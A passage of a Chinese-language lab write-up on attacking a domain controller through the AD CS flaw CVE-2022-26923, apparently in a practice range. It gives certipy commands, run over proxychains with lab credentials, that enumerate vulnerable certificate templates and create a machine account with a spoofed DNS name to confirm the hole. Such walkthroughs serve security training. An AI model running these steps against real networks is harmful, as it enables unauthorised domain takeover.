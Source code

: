## 攻击域控 (CVE-2022–26923)

### 信息搜集

靶场提示`AD-CS`，使用`certipy`查找相关证书漏洞。

```plain
proxychains certipy find -u 'lixiuying@xiaorang.lab'  -password 'winniethepooh' -dc-ip 172.22.15.13 -vulnerable -stdout
```

不过我这里没出现具体漏洞，存在一些问题

[![](assets/1707954847-10f2fd31d17e413cecf86087430c78d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209165517-f2436502-c728-1.png)

做完想来应该是没有在`etc/hosts`中添加`XR-CA.xiaorang.lab`的`对应IP地址`，导致无法找到它这个主机。

当时在这里卡住了，参考[https://fushuling.com/index.php/2023/09/17/%e6%98%a5%e7%a7%8b%e4%ba%91%e5%a2%83%c2%b7%e7%bd%91%e9%bc%8e%e6%9d%af%e5%8d%8a%e5%86%b3%e8%b5%9b%e6%b2%a1%e6%89%93%e5%ae%8c/](https://fushuling.com/index.php/2023/09/17/%e6%98%a5%e7%a7%8b%e4%ba%91%e5%a2%83%c2%b7%e7%bd%91%e9%bc%8e%e6%9d%af%e5%8d%8a%e5%86%b3%e8%b5%9b%e6%b2%a1%e6%89%93%e5%ae%8c/)

### 漏洞探测

首先添加用户，如果能够添加成功就说明漏洞存在，使用工具链接[https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)

```plain
proxychains certipy account create -user 'TEST2$' -pass 'P@ssw0rd' -dns XR-DC01.xiaorang.lab -dc-ip 172.22.15.13 -u lixiuying -p 'winniethepooh'
```

[![](assets/1707954847-dda56c2a000a4bded1a33e75bb0711bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209165524-f692f2c6-c728-1.png)
